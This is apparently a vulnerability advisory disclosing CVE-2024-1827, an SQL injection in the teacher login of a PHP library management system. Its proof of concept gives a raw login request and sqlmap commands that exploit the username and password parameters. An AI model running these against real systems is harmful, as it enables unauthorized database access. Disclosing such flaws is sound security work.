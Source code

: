 # Library System In PHP - SQL Injection (Teacher Login)

### CVE Assigned:
**[CVE-2024-1827](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-1827)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-1827) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-1827)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Library System In PHP](https://code-projects.org/library-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Lms/Source/librarian/user/teacher/login.php

> Two parameters `username` and `password` within teacher login are vulnerable to SQL Injection.


![username](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.2Library-System-In-PHP-Sqli-teacher_login_username.png)

![password](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.2Library-System-In-PHP-Sqli-teacher_login_password.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `teacherlogin.txt`:

```
POST /Lms/Source/librarian/user/teacher/login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://172.16.8.56/Lms/Source/librarian/user/index.php
Cookie: PHPSESSID=4nq5is5jf875uo0a4v5nohv7s7
Content-Length: 87
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Host: 172.16.8.56
Connection: Keep-alive

login=Login&password=1&username=TYYHyRvY
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r teacherlogin.txt --batch --dbms MYSQL --is-dba -p username
```
```
sqlmap -r teacherlogin.txt --batch --dbms MYSQL --is-dba -p password
```


## Recommendations

When using this Library System In PHP, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
